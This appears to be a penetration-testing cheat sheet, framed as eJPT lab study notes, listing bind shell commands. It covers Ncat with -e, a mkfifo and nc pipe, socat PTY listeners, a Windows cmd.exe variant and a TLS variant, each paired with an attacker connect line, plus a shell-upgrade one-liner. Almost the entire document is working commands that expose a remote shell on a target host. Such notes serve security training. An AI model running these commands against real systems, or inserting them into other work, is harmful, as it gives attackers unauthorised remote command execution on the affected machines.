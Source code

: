 Linux target (Ncat):
```
# Target
ncat -lvnp 4444 -e /bin/bash
# Attacker
nc -nv TARGET 4444
# Upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm; stty rows 40 columns 120
```

Linux target (no -e nc):
```
# Target
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l -p 4444 > /tmp/f
# Attacker
nc -nv TARGET 4444
```

Linux target (socat PTY):
```
# Target
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
# Attacker
socat -,rawer,echo=0 TCP:TARGET:4444
```

Windows target (Ncat):
```
# Target
ncat.exe -lvnp 4444 -e cmd.exe
# Attacker
ncat -nv TARGET 4444
```

Optional TLS:
```
# Target
ncat --ssl -lvnp 4444 --exec /bin/bash
# Attacker
ncat --ssl -nv TARGET 4444
```

## Summary
- Bind shells make the target listen for inbound connections, allowing the attacker to connect in and get a shell. They’re straightforward but require inbound reachability to the target host/port.
- Use Ncat or Socat for reliable bind shells; handle nc -e limitations with mkfifo or Socat.
- On Windows, prefer ncat.exe; PowerShell can implement a bind shell if no binaries are available.
- After connecting, upgrade the shell for stable interaction, and be mindful of firewall/NAT constraints.
- In eJPT-style labs, bind shells are especially useful on internal segments and pivots; reverse shells are usually better across perimeter boundaries.